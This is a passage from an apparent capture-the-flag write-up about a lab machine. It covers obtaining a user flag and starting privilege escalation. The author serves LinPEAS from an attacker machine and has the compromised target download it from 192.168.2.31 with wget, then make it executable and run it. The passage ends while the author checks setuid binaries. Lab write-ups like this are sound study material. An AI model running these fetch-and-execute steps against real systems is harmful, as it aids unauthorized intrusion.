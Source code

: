 ![evidence](./static/09-reverseshell.png)

And I start to explore the server, when I check the home directory of the user `heisenberg`, then I find the user flag:

![evidence](./static/10-censored-userflag.png)

## Privilege escalation

I keep exploring the server, but I could not find anything that looks vulnerable, and I decided to use some automated tools. When I download `LinPEAS` on my local machine:
```shell
$ wget "https://github.com/carlospolop/PEASS-ng/releases/latest/
> download/linpeas.sh"
```
And I open an `HTTP` service with Python3:
```shell
$ python3 -m http.service 8000
```
And I download the `linpeas.sh` file on the target machine:
```shell
$ www-data@kb-server:/tmp$ wget 192.168.2.31:8000/linpeas.sh
```
And I give it executable permissions:
```shell
$ www-data@kb-server:/tmp$ chmod +x linpeas.sh
```
And I run it:
```shell
$ www-data@kb-server:/tmp$ ./linpeas.sh
```
Then I could not see anything useful, and at this point I was stuck, and I decided to start testing the CVEs recommended by `LinPEAS`, but none of them work. When I check each binary with permissions `setuid`:
